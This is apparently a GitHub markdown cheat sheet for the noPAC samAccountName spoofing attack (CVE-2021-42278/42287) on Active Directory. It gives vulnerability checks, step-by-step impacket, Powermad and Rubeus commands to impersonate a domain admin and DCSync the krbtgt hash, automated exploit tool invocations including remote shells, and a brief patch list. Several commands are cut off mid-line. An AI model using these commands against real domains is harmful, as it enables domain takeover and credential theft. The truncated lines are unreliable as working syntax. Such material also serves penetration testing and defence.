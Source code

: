 # noPAC samAccountName spoofing CVE-2021-42278 and CVE-2021-42287

### During S4U2Self, the KDC will try to append a '$' to the computer name specified in the TGT, if the computer name is not found. An attacker can create a new machine account with the sAMAccountName set to a domain controller's sAMAccountName - without the '$'. For instance, suppose there is a domain controller with a sAMAccountName set to 'DC$'. An attacker would then create a machine account with the sAMAccountName set to 'DC'. The attacker can then request a TGT for the newly created machine account. After the TGT has been issued by the KDC, the attacker can rename the newly created machine account to something different, e.g. JOHNS-PC. The attacker can then perform S4U2Self and request a ST to itself as any user. Since the machine account with the sAMAccountName set to 'DC' has been renamed, the KDC will try to find the machine account by appending a '$', which will then match the domain controller. The KDC will then issue a valid ST for the domain controller.

## Requirements:

 - MachineAccountQuota > 0

## Check for exploitation

### 1) Check the MachineAccountQuota of the account

    crackmapexec ldap 10.10.10.10 -u username -p 'Password123' -d 'domain.local' --kdcHost StandIn.exe --object ms-DS-MachineAccountQuota=*

### 2) Check if the DC is vulnerable

    crackmapexec smb 10.10.10.10 -u '' -p '' -d domain -M nopac

## Exploitation

#### 1) Create a computer account

    impacket@linux> addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'PASS'

    powermad@windows> . .\Powermad.ps1

    powermad@windows> $password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText
 
    powermad@windows> New-MachineAccount -MachineAccount "ControlledComputer" -Password
 
    sharpmad@windows> Sharpmad.exe MAQ -Action new -MachineAccount ControlledComputer

#### 2) Clear the controlled machine account "servicePrincipalName" attribute

    impacket@linux> addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$'

    powershell@windows> . .\Powerview.ps1

    powershell@windows> Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain

#### 3) (CVE-2021-42278) Change the controlled machine account sAMAccountName to a Domain Controller's name without the trailing $

    impacket@linux> renameMachine.py -current-name 'ControlledComputer$' -new-name

    powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer

#### 4) Request a TGT for the controlled machine account

    impacket@linux> getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'

    cmd@windows> Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword

#### 5) Reset the controlled machine account sAMAccountName to its old value

    impacket@linux> renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$'

    powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer"

#### 6) (CVE-2021-42287) Request a service ticket with S4U2self by presenting the TGT obtained before

    impacket@linux> KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate

    cmd@windows> Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/

#### 7) DCSync

    KRB5CCNAME='DomainAdmin.ccache'
 
    secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local'@'DomainController.domain.local'

## Automated Exploitation

#### 1) https://github.com/cube0x0/noPac - Windows

    noPac.exe scan -domain htb.local -user user -pass 'password123'

    noPac.exe -domain htb.local -user domain_user -pass 'Password123!' /dc dc.htb.local
 
    noPac.exe -domain htb.local -user domain_user -pass "Password123!" /dc dc.htb.local 

#### 2) https://github.com/Ridter/noPac - Linux

    python noPac.py 'domain.local/user' -hashes ':31d6cfe0d16ae931b73c59d7e0c089c0'

#### 3) https://github.com/safebuffer/sam-the-admin

    python3 sam_the_admin.py "domain/user:password" -dc-ip 10.10.10.10 -shell

#### 4) https://github.com/ly4k/Pachine

    $ python3 pachine.py -dc-host dc.domain.local -scan 'domain.local/john:Passw0rd!'

    $ python3 pachine.py -dc-host dc.domain.local -spn cifs/dc.domain.local -impersonate
 
    $ export KRB5CCNAME=$PWD/administrator@domain.local.ccache

    $ impacket-psexec -k -no-pass 'domain.local/administrator@dc.domain.local'


# MITIGATIONS

### 1) KB5007247 - Windows Server 2012 R2

### 2) KB5008601 - Windows Server 2016

### 3) KB5008602 - Windows Server 2019

### 4) KB5007205 - Windows Server 2022

### 5) KB5008102

### 6) KB5008380

